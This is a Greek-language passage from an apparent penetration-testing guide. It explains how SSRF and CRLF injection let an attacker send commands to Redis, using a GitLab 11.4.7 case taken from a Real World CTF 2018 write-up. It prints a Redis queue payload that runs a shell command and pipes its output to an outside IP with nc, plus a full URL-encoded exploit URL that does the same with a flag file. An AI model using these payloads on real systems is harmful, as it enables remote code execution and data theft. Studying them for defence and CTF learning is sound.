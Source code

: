 Αν μπορείτε να στείλετε **καθαρό κείμενο** αίτημα **στο Redis**, μπορείτε να **επικοινωνήσετε μαζί του** καθώς το Redis θα διαβάσει γραμμή προς γραμμή το αίτημα και θα απαντήσει μόνο με σφάλματα για τις γραμμές που δεν καταλαβαίνει:
```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```
Λοιπόν, αν βρείτε μια **SSRF vuln** σε μια ιστοσελίδα και μπορείτε να **ελέγξετε** κάποιες **κεφαλίδες** (ίσως με μια ευπάθεια CRLF) ή **παραμέτρους POST**, θα είστε σε θέση να στείλετε αυθαίρετες εντολές στο Redis.

### Παράδειγμα: Gitlab SSRF + CRLF σε Shell

Στο **Gitlab11.4.7** ανακαλύφθηκε μια **SSRF** ευπάθεια και μια **CRLF**. Η **SSRF** ευπάθεια ήταν στη **λειτουργία εισαγωγής έργου από URL** κατά τη δημιουργία ενός νέου έργου και επέτρεπε την πρόσβαση σε αυθαίρετες IPs με τη μορφή \[0:0:0:0:0:ffff:127.0.0.1] (αυτό θα έχει πρόσβαση στο 127.0.0.1), και η ευπάθεια **CRLF** εκμεταλλεύτηκε απλά **προσθέτοντας χαρακτήρες %0D%0A** στο **URL**.

Έτσι, ήταν δυνατό να **καταχραστούν αυτές οι ευπάθειες για να μιλήσουν με την παρουσία Redis** που **διαχειρίζεται τις ουρές** από **gitlab** και να καταχραστούν αυτές τις ουρές για να **αποκτήσουν εκτέλεση κώδικα**. Το payload κατάχρησης της ουράς Redis είναι:
```
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```
Και το **URL encode** αίτημα **κατάχρησης SSRF** και **CRLF** για την εκτέλεση ενός `whoami` και την αποστολή της εξόδου μέσω `nc` είναι:
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```
_Για κάποιο λόγο (όπως για τον συγγραφέα του_ [_https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/_](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) _από όπου προήλθε αυτή η πληροφορία) η εκμετάλλευση λειτούργησε με το `git` scheme και όχι με το `http` scheme._

<figure><img src="/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
